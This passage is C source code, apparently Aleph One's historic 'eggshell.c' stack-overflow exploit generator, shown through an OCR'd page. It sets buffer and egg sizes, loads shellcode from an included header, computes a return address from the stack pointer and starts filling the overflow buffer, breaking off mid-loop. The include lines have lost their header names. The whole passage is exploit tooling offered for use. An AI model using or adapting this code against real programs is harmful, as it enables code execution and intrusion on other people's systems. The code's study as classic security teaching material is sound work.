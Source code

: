 eggshell.c

```c
/*
 * eggshell v1.0
 *
 * Aleph One / aleph1@underground.org
 */
#include
#include
#include "shellcode.h"

#define DEFAULT_OFFSET 0
#define DEFAULT_BUFFER_SIZE 512
#define DEFAULT_EGG_SIZE 2048

void usage(void);

void main(int argc, char *argv[]) {
    char *ptr, *bof, *egg;
    long *addr_ptr, addr;
    int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
    int i, n, m, c, align=0, eggsize=DEFAULT_EGG_SIZE;

    while ((c = getopt(argc, argv, "a:b:e:o:")) != EOF)
        switch (c) {
            case 'a':
                align = atoi(optarg);
                break;
            case 'b':
                bsize = atoi(optarg);
                break;
            case 'e':
                eggsize = atoi(optarg);
                break;
            case 'o':
                offset = atoi(optarg);
                break;
            case '?':
                usage();
                exit(0);
        }

    if (strlen(shellcode) > eggsize) {
        printf("Shellcode is larger the the egg.\n");
        exit(0);
    }

    if (!(bof = malloc(bsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }
    if (!(egg = malloc(eggsize))) {
        printf("Can't allocate memory.\n");
        exit(0);
    }

    addr = get_sp() - offset;
    printf("[ Buffer size:\t%d\t\tEgg size:\t%d\tAligment:\t%d\t]\n",
        bsize, eggsize, align);
    printf("[ Address:\t0x%x\tOffset:\t\t%d\t\t\t\t]\n", addr, offset);

    addr_ptr = (long *) bof;
    for (i = 0; i < bsize; i+=4)
```